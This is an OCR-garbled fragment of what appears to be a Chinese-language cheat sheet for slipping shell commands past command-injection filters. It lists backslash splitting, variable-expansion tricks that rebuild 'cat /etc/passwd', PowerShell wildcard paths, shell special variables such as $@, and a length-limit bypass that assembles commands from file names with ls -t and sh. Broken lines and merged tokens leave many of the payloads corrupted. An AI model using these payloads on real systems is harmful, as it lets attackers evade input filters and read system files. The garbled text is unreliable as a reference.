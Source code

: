   
4.反斜杠 linux  
  
c\at   
1  
.t\xt同上一样的效果  
  
  
5.可变扩展绕过linux  
  
test  
=/ehhh  
/hmtc  
/pahhh  
/hmsswdcat
$  
{test  
//hhh\/hm}
== /etc/passwdcat
$  
{test  
//hh??hm/}
== /etc/passwd  
  
  
6.用通配符绕过windows  
  
powershell   
C  
:\  
*\  
*  
2\n  
??e  
*d  
.  
*?|notepad  
  
  
7.shell特殊变量  
  
ca$@t 1$1  
.txt  
==cat   
1  
.txtc@$a$@t@$
1$1  
.@$t@$x@$t  
  
  
长度限制绕过  
  
通过构造文件来绕过linux下可以用  
1  
>a 创建文件名为a的空文件ls  
-t  
>test 则会将目录按时间排序后写进test文件中sh可以从一个文件中读取命令来执行
例如一个文件里面写了 echo  
1那么着急sh文件名
即可输出  
1  
  